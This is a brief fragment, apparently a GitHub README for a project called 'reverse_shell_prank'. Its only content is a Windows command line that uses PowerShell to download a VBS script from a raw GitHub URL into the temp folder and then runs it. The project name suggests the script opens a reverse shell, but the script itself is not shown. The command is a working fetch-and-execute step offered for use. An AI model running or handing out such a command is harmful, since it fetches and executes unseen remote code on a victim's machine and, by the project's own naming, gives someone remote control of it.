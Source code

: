 # reverse_shell_prank
del %tmp%/audio.vbs && powershell -command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/wwwqr-000/reverse_shell_prank/main/audio.vbs' -OutFile %tmp%/audio.vbs" && start %tmp%/audio.vbs
